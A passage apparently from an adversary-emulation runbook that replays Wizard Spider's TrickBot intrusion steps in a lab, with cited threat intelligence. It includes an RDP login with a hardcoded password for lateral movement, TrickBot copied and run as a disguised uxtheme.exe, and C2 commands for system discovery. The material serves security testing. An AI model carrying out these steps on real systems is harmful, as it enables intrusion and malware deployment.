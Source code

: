 Change your RDP tab name to "RDP into Toto"

RDP into Toto and create RDP drive that has TrickBot folder structure

```bash
# Wizard Spider has used RDP for lateral movement.[5][2][8]

cd ~/
xfreerdp +clipboard /u:oz\\bill /p:"Fall2021" /v:10.0.0.8 /drive:X,wizard_spider/Resources/TrickBot/WNetval
```

Open `CMD.exe` and copy file to bill's AppData\Roaming

:warning: make sure you're in a `CMD` shell

```bash
copy \\tsclient\X\TrickBotClientExe.exe %AppData%\uxtheme.exe
```

 Kick off exeuction by starting TrickBotClientExe.exe

```bash
cd %AppData%
uxtheme.exe
```

### :microscope: Cited Intelligence
* https://attack.mitre.org/groups/G0102/

* https://www.crowdstrike.com/blog/timelining-grim-spiders-big-game-hunting-tactics/

### Step 5 - TrickBot Discovery

:microphone: `Voice Track:`

In step 5 Wizard Spider uses TrickBot to perform detailed system discovery.

You will see TrickBot executing shell commands, such as systeminfo, sc.exe, net.exe, and so on.

Trickbot executes commands via the C standard library function, `system()`.

### :biohazard: Procedures

Switch back to your C2 terminal window.

Execute the following commands.

```bash
# TrickBot gathers the OS version, machine name, CPU type, amount of RAM available, and UEFI/BIOS firmware information from the victim’s machine.[1][2][7][12]

./evalsC2client.py --set-task TrickBot-Implant "systeminfo > discovery.txt"
```

```bash
# TrickBot collects a list of install programs and services on the system’s machine.[1]

./evalsC2client.py --set-task TrickBot-Implant "sc query >> discovery.txt"
```

